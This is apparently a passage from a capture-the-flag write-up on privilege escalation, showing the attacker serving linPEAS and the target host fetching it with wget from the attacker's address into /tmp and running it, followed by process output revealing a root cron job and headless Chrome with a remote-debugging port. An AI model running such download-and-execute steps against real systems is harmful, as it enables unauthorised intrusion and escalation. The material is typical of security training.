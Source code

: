 From our attacker host :

```shell
cp /opt/resources/linux/linPEAS/linpeas_linux_amd64 ./linpeas    

updog
```

on tagrget host :

```shell
cd /tmp
wget -q http://10.10.14.19:9090/linpeas -O /tmp/linpeas
chmod +x /tmp/linpeas
/tmp/linpeas
```

Some interesting results :

```text
root         997  0.0  0.0   4304  2664 ?        Ss   Jul04   0:01 /usr/sbin/cron -f -P
root       53840  0.0  0.1   7760  4160 ?        S    17:35   0:00  _ /usr/sbin/CRON -f -P
runner     53842  0.0  0.0   2888   984 ?        Ss   17:35   0:00      _ /bin/sh -c /app/test_and_update.sh
runner     53843  0.0  0.0   4780  3324 ?        S    17:35   0:00          _ /bin/bash /app/test_and_update.sh
runner     53848  0.0  0.7  37880 31536 ?        S    17:35   0:00              _ /app/venv/bin/python3 /app/venv/bin/pytest -x
runner     53849  0.0  0.3 33625804 13812 ?      Sl   17:35   0:00                  _ chromedriver --port=35401
runner     53855  0.0  2.5 33986460 102540 ?     Sl   17:35   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.3E8wHn --window-size=1420,1080 data:,
runner     53859  0.0  0.0   3348   992 ?        S    17:35   0:00                          _ cat
runner     53860  0.0  0.0   3348  1012 ?        S    17:35   0:00                          _ cat
runner     53867  0.0  1.4 33822084 57908 ?      S    17:35   0:00                          _ /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
runner     53887  0.0  1.9 33916488 78108 ?      Sl   17:35   0:00                          |   _ /opt/google/chrome/chrome --type=gpu-process --enable-logging --headless --log-level=0 --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=53862 --gpu-preferences=WAAAAAAAAAAgAAAYAAAAAAAAAAAAAAAAAABgAAAAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --use-angle=swiftshader-webgl --enable-logging --log-level=0 --shared-files --field-trial-handle=0,i,3907723225912737164,16292197360565636542,131072 --disable-features=PaintHolding
runner     53868  0.0  1.4 33822072 57636 ?      S    17:35   0:00                          _ /opt/google/chrome/chrome --type=zygote --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
runner     53870  0.0  0.3 33822100 15088 ?      S    17:35   0:00                          |   _ /opt/google/chrome/chrome --type=zygote --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=53862 --enable-crash-reporter
  └─(Caps) 0x0000000000200000=cap_sys_admin
runner     53918  0.2  3.1 1184727488 126932 ?   Sl   17:35   0:01                          |       _ /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=53862 --lang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port=41829 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --enable-blink-features=ShadowDOMV0 --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1688502480966495 --launch-time-ticks=76021140047 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,3907723225912737164,16292197360565636542,131072 --disable-features=PaintHolding
```